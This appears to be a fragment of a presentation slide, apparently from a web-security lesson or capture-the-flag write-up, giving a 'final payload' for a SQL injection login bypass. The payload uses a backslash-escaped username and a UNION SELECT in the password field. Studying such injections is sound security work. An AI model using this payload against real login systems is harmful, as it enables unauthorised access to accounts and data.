

#
최종 payload

username=asdf\
password= union select "admin" from users;#